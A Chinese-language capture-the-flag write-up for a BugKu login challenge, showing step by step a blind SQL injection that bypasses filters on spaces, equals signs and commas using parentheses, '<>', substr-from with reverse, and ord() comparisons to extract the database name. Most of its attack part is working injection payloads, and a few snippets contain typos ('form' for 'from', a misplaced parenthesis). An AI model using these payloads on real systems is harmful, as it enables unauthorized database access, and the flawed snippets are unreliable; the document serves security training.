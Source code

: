 ### () 绕过空格过滤

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/682ae2ae58cb8da5c8fbde5e.jpg)

尝试弱口令回显密码错误

![](https://pic1.imgdb.cn/item/682ae7e958cb8da5c8fbe1f0.jpg)

用户名是 admin，万能密码回显非法字符

![](https://pic1.imgdb.cn/item/682ae80458cb8da5c8fbe1f6.jpg)

fuzz 测试一波看看过滤了哪些

![](https://pic1.imgdb.cn/item/682ae81858cb8da5c8fbe1fc.jpg)

过滤了空格，可以使用 () 绕过

同时过滤了 =，但是我们可以用 <> 替换 !=

他俩都表示不等于，于是可以构造语句，先永假条件测试返回用户名不存在

```sql
hjakshdksjah'or(1<>1)#
```

![](https://pic1.imgdb.cn/item/682ae86658cb8da5c8fbe245.jpg)

再永真条件测试返回密码不存在

```sql
hjakshdksjah'or(1<>2)#
```

![](https://pic1.imgdb.cn/item/682ae94e58cb8da5c8fbe5a9.jpg)

首先是咱输入的用户名肯定是不存在的（键盘瞎按的）

如果 or 语句为假则用户名不存在，反之为真，由此可以先测试数据库长度

最后得到数据库长度为 8

```sql
hjakshdksjah'or(length(database()>0))#
```

![](https://pic1.imgdb.cn/item/682aea6e58cb8da5c8fbe897.jpg)

接下来需要爆破数据库名，但是它过滤了逗号

想到了字符串截取函数 `substr()` 不要逗号空格的用法

```sql
# from 后面的数字表示它从第几位开始取字符
substr('flag' from 1)		# 返回：flag
substr('flag' from 2)		# 返回：lag
```

可以构造下面 payload 拿到数据库名

```sql
substr((database())from(1))
```

但是 for 有截取长度限制，所以我们再套一个 `substr() + reverse()` 每次只截取一位

```sql
substr((reverse(substr('flag' form 1))) from 4 )		# 返回：f
substr((reverse(substr('flag' form 2))) from 3 )		# 返回：l
substr((reverse(substr('flag' form 3))) from 2 )		# 返回：a
substr((reverse(substr('flag' form 4))) from 1 )		# 返回：g
```

最后再利用之前 <> 配合 `ord()` 转 ASCII 码比较

```sql
asdadadadadas'or(ord(substr(reverse(substr((database())from(1)))from(8)))<>115)#
```

![](https://pic1.imgdb.cn/item/682af24b58cb8da5c8fc19be.jpg)

